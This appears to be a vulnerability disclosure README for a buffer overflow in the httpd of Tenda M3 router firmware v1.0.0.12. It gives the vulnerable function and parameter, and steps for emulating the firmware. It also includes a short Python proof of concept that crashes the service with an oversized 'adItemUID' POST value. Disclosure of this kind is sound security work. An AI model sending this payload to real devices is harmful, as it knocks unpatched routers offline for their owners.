 # Tenda M3 contains Buffer Overflow Vulnerability

## overview

- type: buffer overflow vulnerability

- supplier: Tenda https://www.tenda.com 

- product: TendaM3 https://www.tenda.com.cn/product/M3.html

- firmware download:   https://www.tenda.com.cn/download/detail-3133.html

- affect version: TendaM3 v1.0.0.12(4856)

## Description

### 1. Vulnerability Details

the `httpd` in directory `/bin` has a buffer overflow. The vunlerability is in fucntion `formSetGuideListItem` 

![image-20220819151053400](readme.assets/image-20220819151053400.png)

In this function, it copies POST parameter `adItemUID` to buffer in `.bss`  

![image-20220819151152576](readme.assets/image-20220819151152576.png)

If `s` is too long, it will causes dos(deny of service)

### 2. Recurring loopholes and POC

use qemu-arm-static to run the `httpd`, we need to patch it before run. 

- in `main` function, The `ConnectCfm` function didn’t work properly, so I patched it to `NOP` 
- The `R7WebsSecurityHandler` function is used for permission control, and I've modified it to access URLs that can only be accessed after login

poc of DOS(deny of service)

```python
import requests

data = {
    "adItemUID": "a"*0x2000
}
cookies = {
    "user": "admin"
}
res = requests.post("http://127.0.0.1/goform/setGuideListItem", data=data, cookies=cookies)
print(res.content)
```

![image-20220819151235474](readme.assets/image-20220819151235474.png)

![image-20220819151254721](readme.assets/image-20220819151254721.png)

![image-20220819151310326](readme.assets/image-20220819151310326.png)

![image-20220819151349492](readme.assets/image-20220819151349492.png)